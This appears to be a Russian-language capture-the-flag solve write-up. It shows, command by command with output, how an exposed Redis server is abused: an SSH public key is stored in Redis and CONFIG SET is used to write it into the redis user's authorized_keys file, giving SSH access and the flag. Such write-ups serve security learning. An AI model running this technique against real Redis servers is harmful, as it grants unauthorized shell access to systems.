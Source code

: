 ### Solve

Создаем ssh ключ:

```bash
root@attackerLogin:~# ssh-keygen -t rsa -f /tmp/key
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /tmp/key
Your public key has been saved in /tmp/key.pub
The key fingerprint is:
SHA256:JUAdr2d9p+hWReVZPtHN6MYD7Lnk2CMLlohnSNcZmpI root@attackerLogin
The key's randomart image is:
+---[RSA 3072]----+
|     .o... .   +*|
|       .o.  o .oO|
|     . +.oo. = +o|
|    E + o+ .+ = o|
|   . = .S.o=.o.o.|
|    o + +oo =o.o |
|     o . . o.o.  |
|          ...    |
|           ..    |
+----[SHA256]-----+
```

Подготовка ключа для redis:

```bash
(echo -e "\n\n"; cat /tmp/key.pub; echo -e "\n\n") > /tmp/redis_key.txt
```

Загрузка ключа в redis:

```bash
cat /tmp/redis_key.txt | redis-cli -h 10.184.48.2 -x set crackit
```

Настройка Redis для записи в authorized_keys:

```bash
root@attackerLogin:~# cat /tmp/redis_key.txt | redis-cli -h 10.184.48.2 -x set crackit
OK
root@attackerLogin:~# redis-cli -h 10.184.48.2 config set dir /var/lib/redis/.ssh/
OK
root@attackerLogin:~# redis-cli -h 10.184.48.2 config set dbfilename "authorized_keys"
OK
root@attackerLogin:~# redis-cli -h 10.184.48.2 save
OK
```

Подключение по SSH:

```bash
root@attackerLogin:~# chmod 600 /tmp/redis_key
root@attackerLogin:~# ssh -i /tmp/redis_key redis@10.184.48.2
The authenticity of host '10.184.48.2 (10.184.48.2)' can't be established.
ED25519 key fingerprint is SHA256:2+DIzLPCsor8jrSirIpQpSe3dSEUsYLsAsGQxIgLUcQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.184.48.2' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-130-generic x86_64)
.
.
.
redis@redisNologin:~$ cat /flag.txt
defbox{grlg64lwv6}
```
